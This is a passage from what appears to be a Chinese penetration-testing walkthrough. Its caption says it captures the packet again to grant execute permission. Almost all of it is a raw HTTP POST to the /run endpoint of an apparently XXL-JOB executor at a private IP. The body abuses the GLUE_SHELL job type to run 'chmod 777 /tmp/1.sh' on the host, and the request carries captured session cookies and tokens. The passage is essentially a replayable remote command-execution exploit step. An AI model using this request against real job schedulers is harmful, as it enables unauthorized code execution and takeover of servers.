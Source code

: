 ![Untitled](image/Untitled%204.png)

再次抓包赋予可执行权限

```
POST /run HTTP/1.1
Host: 192.168.81.173:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "chmod 777 /tmp/1.sh",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```
